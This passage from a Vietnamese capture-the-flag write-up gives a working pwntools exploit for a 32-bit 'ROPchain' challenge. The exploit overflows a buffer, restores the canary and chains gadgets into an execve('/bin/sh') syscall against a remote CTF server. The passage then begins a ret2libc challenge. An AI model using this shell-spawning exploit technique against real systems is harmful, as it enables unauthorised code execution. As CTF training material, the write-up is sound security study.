 ```
from pwn import *
from struct import pack


BIN = "./ROPchain"
HOST = "45.122.249.68" 
PORT = 10002
canary = 0x080d900a
save_base_pointer = 0xffffcff8





pop_eax = 0x080a89e6 #pop eax ; ret
pop_edx = 0x0806e051 #pop edx ; pop ecx ; pop ebx ; ret
bin_sh = 0x080d9068 #/bin/sh
int80 = 0x080495a3


def exploit():
	payload = b"a"*132 + p32(canary) + p32(save_base_pointer) 
	payload += p32(pop_eax) + p32(0xb)
	payload += p32(pop_edx) + p32(0) + p32(0) + p32(bin_sh)
	payload += p32(int80)
	# __breakpoint="""
	# 	b*main+67
	# 	"""
	# gdb.attach(io,__breakpoint)
	io.recvuntil("Insert ROP chain here:")
	io.sendline(payload)
	io.interactive()

# io = process(BIN)
# context.log_level='debug'
io = remote(HOST,PORT)
exploit()
```
![img](https://github.com/datnlq/Source/blob/main/PhaPhaJian/image/ROPchain_flag.png?raw=true)

### Return2LibC_Once
##### Return2LibC_Once - x86 - ret2libc: nc 45.122.249.68 10011
File [BIN](), [LIBC]()

Qua tới bài này rồi thì ta sẽ không ôn lại những kỹ thuật cũ nữa sẽ làm lẹ lẹ lẹ để đi ngủ .

Làm thủ tục thì chúng ta thấy rằng, chỉ có NX là được bật và đây là 1 file 32 bit

![img](https://github.com/datnlq/Source/blob/main/PhaPhaJian/image/ret2libc_checksec.png??raw=true)
